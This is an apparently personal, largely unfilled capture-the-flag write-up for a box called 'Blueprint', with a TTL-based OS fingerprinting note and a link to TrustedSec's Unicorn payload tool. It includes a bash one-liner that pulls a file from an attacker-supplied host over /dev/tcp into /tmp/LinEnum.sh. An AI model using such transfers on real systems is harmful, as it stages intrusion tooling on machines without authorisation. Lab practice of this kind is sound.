 # Blueprint Writeup

Name: Blueprint
Date:  
Difficulty:  Easy
Goals:  
- Got root.txt at some point cannot remember this box, but I did not get user.txt
Learnt:
Beyond Root:
- TrustedSec's Unicorn 
- msDOS-file-transfer-dreams 

## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

guestusersmbaccess.png

## Exploit

## Foothold

## PrivEsc

## Beyond Root - Unicorn and msDOS-file-transfer-dreams 

TrustedSec's Unicorn - https://github.com/trustedsec/unicorn

Powershell or msDOS `echo` version of Ippsec's `cat` file tranfer for windows! Wow what a file transfer, I have not seen this on any OSCP cheatsheets! - findstr would be obvious choice but I really want and echo version.
```bash
bash -c "cat < /dev/tcp/$IP/$PORT > /tmp/LinEnum.sh"
```

Yes I know of the vbget line-by-line, but I really just want a hacky version of the above. 
```powershell
```